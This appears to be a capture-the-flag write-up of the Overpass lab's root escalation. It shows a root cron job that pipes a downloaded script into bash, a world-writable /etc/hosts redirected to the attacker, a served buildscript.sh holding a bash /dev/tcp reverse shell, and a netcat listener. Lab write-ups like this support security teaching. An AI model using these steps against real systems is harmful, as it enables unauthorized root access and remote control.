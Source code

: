It looks like there is a job that runs every minutes called `buildscript.sh`

````bash
james@overpass-prod:~$ cat /etc/crontab

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
````
I look around for other files that i have `write` permission and stumbled across /etc/hosts.
````bash
james@overpass-prod:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
````
- Since i have permission to write to the `/etc/hosts` file, we now have enough options to set up a reverse shell.

Let's modify the `/etc/hosts` file on the victim's machine to point to our own IP address.

````bash
GNU nano 2.9.3                   /etc/hosts                      Modified  

127.0.0.1 localhost
127.0.1.1 overpass-prod
[10.17.XX.XXX] overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

File Name to Write: /etc/hosts
^G Get Help     M-D DOS Format       M-A Append            M-B Backup File
^C Cancel       M-M Mac Format       M-P Prepend               ^T To Files
````
On attack machine, i need to replicate the directory structure from the victim's system.
````bash
mkdir -p ~/www/downloads/src
touch ~/www/downloads/src/buildscript.sh
````
On attack machine, i need to modify buildscript.sh to include a reverse shell payload. This script will execute through cronjob, granting us access to the target system.
````bash
cat ~/www/downloads/src/buildscript.sh
#!/bin/bash
bash -i >& /dev/tcp/XX.XX.XX.XXX/9999 0>&1
````
Let's start a Netcat listener on our machine to catch the incoming **reverse shell** connection.
````bash
nc -lnvp 9999
listening on [any] 9999 ...
````
Now, let's launch a web server on attack machine to serve the `buildscript.sh` script.
````bash
sudo python3 -m http.server 80
[sudo] password for Cy3rWo9f:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
````